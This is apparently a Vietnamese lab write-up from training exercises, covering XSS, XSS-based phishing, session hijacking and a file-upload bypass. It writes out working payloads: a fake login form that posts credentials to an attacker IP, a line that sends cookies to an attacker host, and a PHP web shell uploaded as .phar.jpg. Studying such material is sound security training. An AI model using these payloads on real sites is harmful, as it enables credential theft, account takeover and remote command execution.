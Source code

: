 # Reflected XSS

![Screenshot 2025-05-09 012554](https://github.com/user-attachments/assets/a9bf5e3b-80e3-4c0c-9469-858fe8a31364)

![Screenshot 2025-05-09 013154](https://github.com/user-attachments/assets/d315fd9f-8b40-4742-bebb-1673aa5f4f35)

> <script>alert('heloooo')</script>

![Screenshot 2025-05-09 013237](https://github.com/user-attachments/assets/b7cf1b2b-1be1-42be-a64b-8dd5a693aee3)

![image](https://github.com/user-attachments/assets/3cf85edc-c839-4f7d-a543-c4cfa3fcd176)

# Stored XSS cũng giống 

Xuất hiện mỗi lần bạn mở lại trang (mà bạn không cần gửi lại dữ liệu từ input hay URL) 

# DOM XSS

![image](https://github.com/user-attachments/assets/10427616-f046-4fa7-931e-06e663b051d6)

Lần này payload không hoạt động, vì payload được gán thẳng vào innerHTML

![image](https://github.com/user-attachments/assets/82bc8f55-fa28-444a-aaa3-77026b2a06fb)

Có lẻ innerHTML không chạy các thẻ <script> nhưng <img thì được

Ta sẽ gửi một payload như sau 

> <img src="" onerror="alert('aaaa')>

khi ảnh không được tải lên thì sự kiện onerror sẽ thực thi và khi đó

![image](https://github.com/user-attachments/assets/3a98aa17-0013-4485-b1ce-11f96f4475be)

# Phisinggg

![Screenshot 2025-05-09 142539](https://github.com/user-attachments/assets/9523ba51-a53f-4500-adf7-ba65a032a4fc)

Nó cho phép ta nhập vào 1 url hình ảnh vào hiển thị chúng 

![Screenshot 2025-05-09 143254](https://github.com/user-attachments/assets/43d153eb-ee6e-43d7-b98c-2bc5937a1e58)
![Screenshot 2025-05-09 143349](https://github.com/user-attachments/assets/3fd6f1d2-26e7-487e-8cf5-55cab3cdf3ef)

Tiếp theo tôi sẽ tiêm vào một form đăng nhập

![Screenshot 2025-05-09 144552](https://github.com/user-attachments/assets/ce5847b0-92c3-4ec4-9601-3e6b61436cf0)

Tiếp theo tôi chuẩn bị mã XSS thử nghiệm trên biểu mẫu dễ bị tấn công trên, tôi sử dụng hàm trong javascript là document.write() nó có chức năng ghi nội dung trực tiếp ra trang html.

``` document.write('<h3>Please login to continue</h3><form action=http://10.10.15.205><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form><script>document.getElementById('urlform')?.remove()</script><!-- ```

10.10.15.205 sẽ là IP của máy mà chúng ta dùng để lắng nghe thông tin của nạn nhân

Ta được 1 form đăng nhập như này

![image](https://github.com/user-attachments/assets/d656c6e6-0ad3-4f17-a89e-e42d2683fde3)

Bây giờ ta phải làm sao để khi nạn nhân đăng nhập nó sẽ chuyển hướng đến giao diện nhập url ban đầu

![image](https://github.com/user-attachments/assets/d21c5e33-5763-4a31-99db-d3c0c69a97e7)

Ta tạo 1 thư mục tạm vào chèn đoạn mã sao vào file index.php

![image](https://github.com/user-attachments/assets/9f5f9acf-e211-4f7d-9699-4a016774934f)


Bây giờ chúng ta khởi động máy chủ php để lắng nghe, có thể sử dụng thay cho netcat

> sudo php -S 0.0.0.0:80

![image](https://github.com/user-attachments/assets/8b5996ef-2180-47a4-9f3c-7391426002e4)

Ta được thông tin của nạn nhân, Ví dụ nếu trang web hackthebox.com có lỗi tương tự thì ta sẽ có được tài khoảng htb của nạn nhân

# Chiếm đoạt phiên

![Screenshot 2025-05-13 203851](https://github.com/user-attachments/assets/d00f94c8-c17f-45c8-85b5-c9e7628590ff)


- index.js

<pre lang="markdown"> ```javascript new Image().src='http://OUR_IP/index.php?c='+document.cookie ``` </pre>

- chèn mã sau vào lỗ hổng XSS tìm được

<pre lang="markdown"> ```<script src=http://OUR_IP/script.js></script> ``` </pre>

- Gửi nó vào trường đầu vào dễ bị tấn công và ta sẽ nhận được lệnh gọi đến máy chủ với giá trị cookie
- Nhưng có nhiều cookie ta có thể không biết giá trị cookie nào thuộc về tiêu đề cookie nào, đây là tập lệnh php để chia chúng thành dòng mới và ghi chúng vào một tệp

![Screenshot 2025-05-13 203809](https://github.com/user-attachments/assets/5611bda4-23de-4285-be14-6db5ea04aaf4)

Ta nên bật trình lắng nghe trên VM bằng netcat hoac bằng php

Thêm vào 1 dòng nano index.php và đổ đoạn code bên trên vào trước khi khởi động trình lắng nghe

![Screenshot 2025-05-13 204601](https://github.com/user-attachments/assets/ceb8229f-e22a-4f9b-974d-bf9f29e679cb)


Khi nạn nhân đăng nhập vào ta sẽ nhận được cookie của người đó

![Screenshot 2025-05-13 204128](https://github.com/user-attachments/assets/06963a52-089a-49be-9948-21e5fb761bac)

# File Upload

![Screenshot 2025-05-15 151930](https://github.com/user-attachments/assets/d8bb7d85-43b5-460d-87cb-a9f071d52047)

- Sau khi tôi gửi 1 ảnh con mèo nó hiện lên trang web của tôi, tôi nghĩ server sử dụng 1 thư viện nào đó để xử lý dữ liệu vào tạo hình ảnh hiển thị ra cho tôi

![Screenshot 2025-05-15 151714](https://github.com/user-attachments/assets/88d7074c-c93a-4261-ba5f-14b43a21575b)

- Ta thấy ta chỉ được gửi ảnh với phần extension là .jpg .jpef .png

- Ý tưởng là tôi tạo 1 file ảnh đọc hại .jpg nhưng thực chất nội dung là 1 file SVG dạng XML, server có thể xử lý và hiện thị ra nội dung

![Screenshot 2025-05-15 152130](https://github.com/user-attachments/assets/cb05fe81-3861-44af-baa5-9ed4e773eceb)

![Screenshot 2025-05-15 152928](https://github.com/user-attachments/assets/4ac59f2a-9da4-4c0d-a616-bc01b79091ea)

![Screenshot 2025-05-15 153006](https://github.com/user-attachments/assets/a997830b-2baa-417a-831f-aa091e02c13c)

- Sau khi giải mã tôi nhận thấy sau khi file để gửi lên sẽ được lưu trữ tại ```/user_feedback_submissions/``` đây là thứ tôi cần :))
- Phân tích src tôi thấy sau khi file gửi lên sẽ được lưu vào tệp lưu trữ với 1 tên mới

![Screenshot 2025-05-15 153515](https://github.com/user-attachments/assets/6a64b4b4-61f3-4b93-86ca-13a36b02b991)

- Hàm date('ymd') tạo ra ngày tháng năm hiện tại theo định dạng năm-tháng-ngày

![Screenshot 2025-05-15 154027](https://github.com/user-attachments/assets/e268744d-7d99-4c83-8f05-25b8d9dbcd14)

- Tên file mới sẽ có dạng 250515_shellllll.jpg

- Bây giờ ta đã có file lưu trữ, vậy làm sao ta có thể thực thi lệnh từ xa để lấy flag tại thư mục /
- Tôi tiếp tục thêm đoạn mã sau vào file shellllll.jpg của tôi
![Screenshot 2025-05-15 155218](https://github.com/user-attachments/assets/ca556fcc-acfe-4281-98aa-d53a46bf4326)
-Tôi vào đường dẫn lưu trữ file và thấy payload của tôi nhưng nó khong được thực thi
![Screenshot 2025-05-15 155305](https://github.com/user-attachments/assets/8a123717-75a9-4428-a177-cffd4266bd94)

- Vậy để thực thi được tôi cần phải thay đổi extension của tôi thành .php nhưng vẫn đảm bảo extension cuối vẫn là .jpg
- Nhưng
  
![Screenshot 2025-05-15 155643](https://github.com/user-attachments/assets/63472db5-d6c1-40c6-9c74-baa723a87429)

- Lí do là tôi đã bị chặn các đuôi .php .phps .phtml

![Screenshot 2025-05-15 155742](https://github.com/user-attachments/assets/a7e4b08a-1178-4f7f-a366-e678038f1796)

- Giải pháp là tôi đã thay thành .phar.jpg
  
- https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt

- Và khi tôi vào đường dẫn của file lưu trữ tôi thấy payload của tôi đã được thực thi

![Screenshot 2025-05-15 155927](https://github.com/user-attachments/assets/7033912a-0e09-48ee-8cd9-5a39f3e359e7)

- Tuyết vời , bây giờ tôi chỉ cần chèn vào 1 payload đơn giản có thể RCE

- ```<?php system($_GET["cmd"]); ?>```
  
![Screenshot 2025-05-15 160542](https://github.com/user-attachments/assets/47697880-9848-453b-8022-d0be3e7e0c0c)
































